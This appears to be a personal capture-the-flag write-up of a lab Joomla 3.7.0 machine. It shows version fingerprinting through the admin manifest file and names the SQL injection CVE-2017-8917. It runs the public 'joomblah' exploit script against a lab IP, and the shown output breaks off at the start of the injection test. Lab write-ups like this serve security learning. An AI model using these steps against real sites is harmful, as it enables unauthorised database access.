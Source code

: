 First hard machine

I know I may not be ready yet but I want to see how hard things can get irl

I will do this slowly and use other's walktrough writeups when needed

There is a login page in "administrator" directory

Its a joomla website but we need the version to search for vulnerabilities

googling "how to check joomla version" we get

`http://10.10.100.174/administrator/manifests/files/joomla.xml`

```
files_joomla Joomla! Project admin@joomla.org www.joomla.org (C) 2005 - 2017 Open Source Matters. All rights reserved GNU General Public License version 2 or later; see LICENSE.txt 3.7.0 April 2017 FILES_JOOMLA_XML_DESCRIPTION administrator/components/com_admin/script.php administrator/components/com_admin/sql/updates/mysql administrator/components/com_admin/sql/updates/sqlazure administrator/components/com_admin/sql/updates/sqlazure administrator/components/com_admin/sql/updates/postgresql administrator bin cache cli components images includes language layouts libraries media modules plugins templates tmp htaccess.txt web.config.txt LICENSE.txt README.txt index.php https://update.joomla.org/core/list.xml
```

Joomla 3.7.0

its seems to be vulnerable to sql injection `CVE-2017-8917`

the room suggests not using sqlmap but a python script

we google cve that-specific-cve script and TA-DAA we got a script (hard work lol)

For the sake of credits its: `joomblah` from stefanlucas (thanks)

this script works better with python2...I needed to install pip and requests to make it

```
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py
python2 get-pip.py
python2 -m pip install requests
```

There is a python 3 version commited by mats-codes (commit #18) but its not complete fix

According to reddit:

```
Fix for the joomblah.py script Add .decode('utf-8') to the end of line 46 so it looks like this result += value.decode('utf-8')
```

Anyway I used the python 2 method and it works

```
└──╼ $python2 joomblah.py http://10.10.135.31/

.---. .-'''-. .-'''-.
| | ' _ \ ' _ \ .---.
'---' / /` '. \ / /` '. \ \_\_ ** \_** /| | | .
.---.. | \ ' . | \ ' | |/ `.' `. || | | .'|
| || ' | '| ' | '| .-. .-. '|| | | < |
| |\ \ / / \ \ / / | | | | | ||| ** | | ** | |
| | `. ` ..' / `. ` ..' / | | | | | |||/'** '. | | .:--.'. | | .'''-.
| | '-...-'` '-...-'` | | | | | ||:/` '. '| |/ | \ | | |/.'''. \ | | | | | | | ||| | || |`" ** | | | / | |
| | |**| |**| |**|||\ / '| | .'.''| | | | | |
**.' ' |/'..' / '---'/ / | |_| | | |
| ' ' `'-'` \ \._,\ '/| '. | '.
|\_\_\_\_.' `--' `" '---' '---'

[-] Fetching CSRF token
[-] Testing SQLi
```